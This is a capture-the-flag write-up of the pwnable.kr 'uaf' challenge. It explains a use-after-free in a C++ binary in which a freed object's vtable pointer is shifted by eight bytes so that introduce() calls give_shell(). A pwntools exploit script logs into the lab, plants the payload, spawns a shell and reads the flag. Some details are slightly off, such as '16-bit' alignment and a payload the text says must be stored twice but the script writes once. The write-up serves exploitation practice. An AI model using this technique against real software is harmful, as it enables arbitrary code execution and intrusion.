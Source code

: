 Note: a vtable is associated to a class, and allocated objects of the class (with the new keyword) will include a chunk containing their vtable address. vtables are present in the binary. 
When we want to call functions defined inside the class, their addresses will be found in the vtable corresponding to the address present in the object's heap chunk.

In this challenge, after freeing the chunks, we can overwrite the chunks of size ``0x20`` (that contain vtable address) by the content of the file passed in argv[2]. We will specify a size of 0x18 to ensure it is the 0x20 chunks that are going to be reused (it will be 16-bit aligned).

Moreover, we have a use after free vulnerability: ``Man::introduce()`` can still be called after the free. We are going to exploit this by modifying the address of the vtable used by the ``m`` object.

introduce is the second function for Man vtable. We have:
``*(man_vtable+0x10)``   is ``give_shell`` address
``*(man_vtable+0x10+8)`` is ``introduce`` address

Note: first function in the vtable is after a 0x10 offset. In the heap, it is ``vtable+0x10`` that is stored.

If we decrease ``(vtable+0x10)`` address by 8, trying to call ``m->introduce`` will result in calling ``m->give_shell``.

first function of the old vtable (give_shell) :
```python
old_vtable_1F =  elf.symbols["_ZTV3Man"]+0x10```
give_shell takes the place of introduce as second function :
```python
new_vtable_1F =  old_vtable_1F-8
```

```python
from pwn import *
elf = ELF("uaf")
shell = ssh("uaf", "pwnable.kr", password="guest", port=2222)
wp = shell.process(["cat", "/dev/stdin", ">>", "/tmp/payload"])
wp.send(p64(new_vtable_1F))
wp.close()

p = shell.process(["./uaf", "24", "/tmp/payload"])
print p.recv()
p.sendline("3") 
print p.recv()
p.sendline("2") 
```
It's w heap chunk that is going to be reused the first time. So we have to store the payload twice, since ``m->introduce`` is called before ``w->introduce``
```python
print p.recv()
p.sendline("2")
print p.recv()
p.sendline("1")
print p.recv()
p.sendline("cat flag")
print p.recv()
```
